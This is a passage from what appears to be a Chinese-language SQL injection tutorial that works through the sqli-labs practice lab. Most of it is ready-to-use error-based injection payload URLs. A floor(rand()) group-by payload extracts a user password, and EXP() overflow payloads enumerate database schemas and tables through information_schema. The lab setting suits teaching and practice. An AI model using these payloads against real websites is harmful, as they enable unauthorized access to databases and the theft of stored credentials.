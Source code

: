 ![bool19](/images/sqlall/bool19.jpg)

```bash
其他URL:
http://sqli-labs.me:8888/Less-6/?id=1" union select 1,count(*),concat(0x3a,(select password from security.users limit
0,1),0x3a,floor(rand(0)*2))a from information_schema.columns group by a --+
```

## 2.2.EXP()报错

EXP(x) 返回值e（自然对数的底）的x次方;如果不懂的,可以看这篇文章:《Mysql注入之exp报错注入》

URL：备注：使用EXP函数进行报错时，必须得知列长，如：这里是id、username、password三列

```bash
http://sqli-labs.me:8888/Less-5/?id=1' union select (exp(~(select * FROM(SELECT USER())a))),2,3--+	
```

![bool21](/images/sqlall/bool21.jpg)

如果列数量不对时会报错;

```bash
URL:
http://sqli-labs.me:8888/Less-5/?id=1' union select (exp(~(select * FROM(SELECT USER())a))),3--+
```

### 2.2.1.爆库

```bash
第一个数据库:
http://sqli-labs.me:8888/Less-5/?id=1' union select (exp(~(select * FROM(SELECT schema_name from
information_schema.schemata limit 0,1)a))),2,3--+
```

![bool23](/images/sqlall/bool23.jpg)

```bash
第二个数据库:
http://sqli-labs.me:8888/Less-5/?id=1' union select (exp(~(select * FROM(SELECT schema_name from
information_schema.schemata limit 1,1)a))),2,3--+
```

### 2.2.2.爆表

```bash
第一张表:
http://sqli-labs.me:8888/Less-5/?id=1' union select (exp(~(select * FROM(SELECT table_name from
information_schema.tables where table_schema='security' limit 0,1)a))),2,3--+
```

![bool24](/images/sqlall/bool24.jpg)

```bash
第三张表:
http://sqli-labs.me:8888/Less-5/?id=1' union select (exp(~(select * FROM(SELECT table_name from
information_schema.tables where table_schema='security' limit 2,1)a))),2,3--+
```
